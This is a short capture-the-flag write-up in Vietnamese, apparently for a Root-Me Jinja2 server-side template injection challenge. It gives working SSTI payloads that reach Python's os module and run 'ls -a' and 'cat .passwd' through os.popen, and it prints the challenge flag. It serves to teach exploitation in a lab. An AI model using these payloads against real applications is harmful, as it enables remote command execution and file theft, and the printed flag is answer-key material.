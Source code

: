 Link refer: https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/#server-side-template-injections

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/7c09a5eb-df93-42f6-9b87-065a872b4e41)

Trong các input thì phần content có thể inject được

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/a8473bd9-2fae-4f8e-b9c0-3d21150675fd)

Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os}}```
=> access to library os

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/12b4b361-0e35-42dd-b436-3003a003e8db)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/d7d5869d-c1c8-4866-934e-f68b4b6ddeee)

Sử dụng payload
```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls%20-a').read()}}```. 
Kí tự ```%20``` thay thế cho nhưng khoảng trắng 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/deeced39-c230-4392-88eb-87032e4a560d)

Thấy được nơi chứa flag là .passwd. Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20.passwd').read()}}```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/77d7a603-e9a6-4cec-9eaf-7ce85a0e20b5)

=> Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!
